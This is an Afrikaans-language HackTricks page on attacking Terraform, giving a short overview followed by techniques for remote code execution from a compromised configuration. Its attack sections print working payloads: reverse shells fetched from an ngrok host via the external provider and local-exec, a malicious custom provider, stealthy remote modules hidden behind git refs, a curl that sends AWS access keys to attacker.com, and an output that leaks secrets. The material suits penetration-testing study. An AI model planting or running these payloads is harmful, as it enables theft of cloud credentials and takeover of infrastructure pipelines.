 # Terraform Sekuriteit

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** my op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repos.

</details>

## Basiese Inligting

[Van die dokumentasie: ](https://developer.hashicorp.com/terraform/intro)

HashiCorp Terraform is 'n **infrastruktuur as kode-hulpmiddel** wat jou in staat stel om beide **wolk- en plaaslike hulpbronne** in mens-leesbare konfigurasie-lêers te definieer wat jy kan weergawe, hergebruik en deel. Jy kan dan 'n konsekwente werkstroom gebruik om al jou infrastruktuur deur sy lewensiklus te voorsien en te bestuur. Terraform kan lae-vlak komponente soos berekening, berging en netwerkhulpbronne bestuur, sowel as hoë-vlak komponente soos DNS-inskrywings en SaaS-funksies.

### Hoe werk Terraform?

Terraform skep en bestuur hulpbronne op wolkplatforms en ander dienste deur middel van hul toepassingsprogrammeerinterfaces (API's). Verskaffers maak dit vir Terraform moontlik om met bykans enige platform of diens met 'n toeganklike API te werk.

![](<../.gitbook/assets/image (33).png>)

HashiCorp en die Terraform-gemeenskap het reeds **meer as 1700 verskaffers** geskryf om duisende verskillende tipes hulpbronne en dienste te bestuur, en hierdie getal bly groei. Jy kan al die openbaar beskikbare verskaffers vind op die [Terraform Register](https://registry.terraform.io/), insluitend Amazon Web Services (AWS), Azure, Google Cloud Platform (GCP), Kubernetes, Helm, GitHub, Splunk, DataDog, en nog baie meer.

Die kern Terraform-werkstroom bestaan uit drie fases:

* **Skryf:** Jy definieer hulpbronne, wat oor verskeie wolkverskaffers en dienste kan wees. Byvoorbeeld, jy kan 'n konfigurasie skep om 'n toepassing op virtuele masjiene in 'n Virtuele Privaatwolk (VPC)-netwerk met sekuriteitsgroepe en 'n vragbalansierder te implementeer.
* **Plan:** Terraform skep 'n uitvoeringsplan wat die infrastruktuur beskryf wat dit sal skep, opdateer of vernietig op grond van die bestaande infrastruktuur en jou konfigurasie.
* **Pas toe:** Op goedkeuring voer Terraform die voorgestelde operasies in die korrekte volgorde uit, met inagneming van enige hulpbronafhanklikhede. Byvoorbeeld, as jy die eienskappe van 'n VPC opdateer en die aantal virtuele masjiene in daardie VPC verander, sal Terraform die VPC herskep voordat dit die virtuele masjiene skaal.

![](<../.gitbook/assets/image (81).png>)

## Terraform Laboratorium

Installeer net terraform op jou rekenaar.

Hier is 'n [gids](https://learn.hashicorp.com/tutorials/terraform/install-cli) en hier is die [beste manier om terraform af te laai](https://www.terraform.io/downloads).

## RCE in Terraform

Terraform het nie 'n platform wat 'n webblad of 'n netwerkdienste blootstel nie, wat beteken dat die enigste manier om terraform te kompromitteer is om in staat te wees om terraform-konfigurasie-lêers by te voeg/wysig.

Terraform is egter 'n baie sensitiewe komponent om te kompromitteer omdat dit bevoorregte toegang tot verskillende plekke het sodat dit behoorlik kan werk.

Die hoofmanier vir 'n aanvaller om die stelsel waar terraform uitgevoer word te kompromitteer, is om die bewaarplek wat terraform-konfigurasies stoor, te kompromitteer, omdat dit op 'n stadium geïnterpreteer sal word.

Daar is eintlik oplossings beskikbaar wat terraform plan/apply outomaties uitvoer nadat 'n PR geskep is, soos Atlantis:

{% content-ref url="atlantis-security.md" %}
[atlantis-security.md](atlantis-security.md)
{% endcontent-ref %}

As jy in staat is om 'n terraform-lêer te kompromitteer, is daar verskillende maniere waarop jy RCE kan uitvoer wanneer iemand `terraform plan` of `terraform apply` uitvoer.

### Terraform plan

Terraform plan is die **mees gebruikte bevel** in terraform en ontwikkelaars/oplossings wat terraform gebruik, roep dit die hele tyd aan, so die **maklikste manier om RCE te kry** is om seker te maak dat jy 'n terraform-konfigurasie-lêer vergiftig wat arbitrêre bevele uitvoer in 'n `terraform plan`.

#### Gebruik van 'n eksterne verskaffer

Terraform bied die [`external`-verskaffer](https://registry.terraform.io/providers/hashicorp/external/latest/docs) aan wat 'n manier bied om tussen Terraform en eksterne programme te skakel. Jy kan die `external`-data-bron gebruik om arbitrêre kode uit te voer tydens 'n `plan`.

Deur iets soos die volgende in 'n terraform-konfigurasie-lêer in te voeg, sal 'n omgekeerde skulp uitgevoer word wanneer jy `terraform plan` uitvoer:
```javascript
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### Gebruik van 'n aangepaste verskaffer

'n Aanvaller kan 'n [aangepaste verskaffer](https://learn.hashicorp.com/tutorials/terraform/provider-setup) na die [Terraform Register](https://registry.terraform.io/) stuur en dit dan by die Terraform-kode in 'n funksie-tak voeg ([voorbeeld van hier](https://alex.kaskaso.li/post/terraform-plan-rce)):
```javascript
terraform {
required_providers {
evil = {
source  = "evil/evil"
version = "1.0"
}
}
}

provider "evil" {}
```
Die verskaffer word afgelaai in die `init` en sal die skadelike kode uitvoer wanneer `plan` uitgevoer word.

'n Voorbeeld kan gevind word by [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec)

#### Die gebruik van 'n eksterne verwysing

Beide genoemde opsies is nuttig, maar nie baie onopvallend nie (die tweede is meer onopvallend, maar ingewikkelder as die eerste). Jy kan hierdie aanval selfs op 'n **meer onopvallende manier** uitvoer deur hierdie voorstelle te volg:

* In plaas daarvan om die omgekeerde skulp direk in die terraform-lêer by te voeg, kan jy 'n **eksterne bron laai** wat die omgekeerde skulp bevat:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
Jy kan die rev shell-kode vind by [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules)

* In die eksterne bron, gebruik die **ref**-funksie om die **terraform rev shell-kode in 'n tak** binne die repo te verberg, iets soos: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### Terraform Apply

Terraform apply sal uitgevoer word om alle veranderinge toe te pas, jy kan dit ook misbruik om RCE te verkry deur **'n kwaadwillige Terraform-lêer in te spuit met** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**.**\
Jy moet net seker maak dat 'n payload soos die volgende in die `main.tf`-lêer eindig:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
Volg die **voorstellings van die vorige tegniek** om hierdie aanval op 'n **meer verborge manier met eksterne verwysings** uit te voer.

## Geheime Uitlek

Jy kan **geheime waardes wat deur terraform gebruik word, uitlek** deur `terraform apply` uit te voer deur iets soos die volgende by die terraform-lêer te voeg:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
## Ouditgereedskap

* [**tfsec**](https://github.com/aquasecurity/tfsec): tfsec gebruik statiese analise van jou terraform-kode om potensiële verkeerde konfigurasies op te spoor.
* [**terascan**](https://github.com/tenable/terrascan): Terrascan is 'n statiese koderanaliseerder vir Infrastruktuur as Kode.

## Verwysings

* [Atlantis-sekuriteit](atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)
* [https://developer.hashicorp.com/terraform/intro](https://developer.hashicorp.com/terraform/intro)


<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** my op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
